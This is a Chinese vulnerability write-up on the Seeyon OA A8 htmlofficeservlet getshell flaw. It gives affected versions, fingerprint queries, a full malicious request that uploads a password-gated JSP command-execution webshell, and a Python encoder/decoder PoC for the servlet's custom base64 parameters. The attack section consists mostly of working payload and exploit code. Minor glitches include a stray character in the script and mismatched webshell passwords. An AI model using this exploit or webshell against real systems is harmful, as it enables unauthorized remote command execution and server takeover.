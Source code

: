 致远 OA A8 htmlofficeservlet getshell 漏洞
==========================================

一、漏洞简介
------------

访问https://wiki.0-sec.org/img
src=\"https://wiki.0-sec.org/img/19f51e83094c4ce79a3da658a24f961b.png\"
alt=\"1.png\" class=\"large\" onclick=\"window.open(this.src)\" /\>

二、漏洞影响
------------

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件 V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件 V7.1

三、复现过程
------------

### 指纹

    https://www.0-sec.org/seeyon/htmlofficeservlet/seeyon/index.jsp
    seeyon
    Fofa：app="用友-致远OA"

![0d4b978ed1474946.png](./.resource/致远OAA8htmlofficeservletgetshell漏洞/media/rId25.png)

    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
    OPTION=S3WYOSWLBSGr
    currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
    CREATEDATE=wUghPB3szB3Xwg66
    RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
    originalFileId=wV66
    originalCreateDate=wUghPB3szB3Xwg66
    FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
    needReadFile=yRWZdAS6
    originalCreateDate=wLSGP4oEzLKAz4=iz=66
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd33445".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce

webshell地址为**https://www.0-sec.org/seeyon/test123456.jsp**，密码为：asasd3344。

### poc

    from sys import argv

    letters = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6"

    def base64_encode(input_str):
        str_ascii_list = ['{:0>8}'.format(str(bin(ord(i))).replace('0b', ''))
                          for i in input_str]
        output_str = ''
        equal_num = 0
        while str_ascii_list:
            temp_list = str_ascii_list[:3]
            if len(temp_list) != 3:
                while len(temp_list) < 3:
                    equal_num += 1
                    temp_list += ['0' * 8]
            temp_str = ''.join(temp_list)
            temp_str_list = [temp_str[x:x + 6] for x in [0, 6, 12, 18]]
            temp_str_list = [int(x, 2) for x in temp_str_list]
            if equal_num:
                temp_str_list = temp_str_list[0:4 - equal_num]
            output_str += ''.join([letters[x] for x in temp_str_list])
            str_ascii_list = str_ascii_list[3:]
        output_str = output_str + '=' * equal_num
        return output_str

    def base64_decode(input_str):
        str_ascii_list = ['{:0>6}'.format(str(bin(letters.index(i))).replace('0b', ''))
                          for i in input_str if i != '=']
        output_str = ''
        equal_num = input_str.count('=')
        while str_ascii_list:
            temp_list = str_ascii_list[:4]
            temp_str = ''.join(temp_list)
            if len(temp_str) % 8 != 0:
                temp_str = temp_str[0:-1 * equal_num * 2]
            temp_str_list = [temp_str[x:x + 8] for x in [0, 8, 16]]
            temp_str_list = [int(x, 2) for x in temp_str_list if x]
            output_str += ''.join([chr(x) for x in temp_str_list])
            str_ascii_list = str_ascii_list[4:]
        return output_str

    if __name__ == "__main__":
        if len(argv) == 2:
            print(base64_decode(argv[1]))
        elif len(argv) == 3:
            if argv[1] == '-d':
                print(base64_decode(argv[2]))
            else:
                print(base64_encode(argv[2]))
        else:
            print("Seeyon OA /seeyon/htmlofficeservlet param encode/decode")
            print("Usage:")
            print("python %s encoded_str" % argv[0])t
            print("python %s -d encoded_str" % argv[0])
            print("python %s -e raw_str" % argv[0])

参考链接
--------

> https://github.com/nian-hua/CVEScript/blob/master/致远OA/zhiyuan.py
>
> http://wyb0.com/posts/2019/seeyon-htmlofficeservlet-getshell/
